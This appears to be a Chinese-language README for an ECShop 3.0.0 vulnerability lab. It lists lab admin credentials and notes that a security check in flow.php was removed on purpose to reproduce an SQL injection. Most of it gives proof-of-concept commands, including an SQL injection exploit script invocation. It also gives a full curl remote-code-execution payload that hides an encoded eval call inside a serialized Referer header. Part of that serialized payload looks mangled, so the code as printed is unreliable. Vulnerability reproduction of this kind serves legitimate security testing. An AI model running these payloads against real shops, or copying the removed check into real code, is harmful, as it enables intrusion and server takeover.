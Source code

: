 ## 环境说明

* src/ecshop/3.0.0

  * 后台地址

    http://172.17.0.2/admin/privilege.php?act=login

  * 管理员账号

    admin/admin123

  * 去除补丁

    删除了./flow.php line 2137的intval函数，用于复现前一版本的SQL注入漏洞



## ECShop3.0.0 SQL注入漏洞

测试镜像

* src/ecshop/3.0.0

影响版本

* ECShop 3.0.0 <  Release0906

参考链接

* [ECShop v3.0 渗透实例](https://www.bodkin.ren/index.php/archives/6/)

Poc

执行脚本：

```shell
python SQL注入漏洞/sqli-exp.py -u http://172.17.0.2/
```

测试成功会返回succeed



## ECShop 远程代码执行漏洞

测试镜像

- src/ecshop/3.0.0

影响版本

- Ecshop 2.x
- Ecshop 3.x-3.6.0

参考链接

- [ECShop全系列版本远程代码执行高危漏洞分析](https://xz.aliyun.com/t/2689)

Poc

执行脚本：

```shell
curl -d "action=login&test=phpinfo();exit;" -H 'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3ect 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2474657374275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b58314250553152626447567a644630704f773d3d2729293b2f2f7d7d,1--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}' "http://127.0.0.1/user.php"
```

测试成功会返回phpinfo执行结果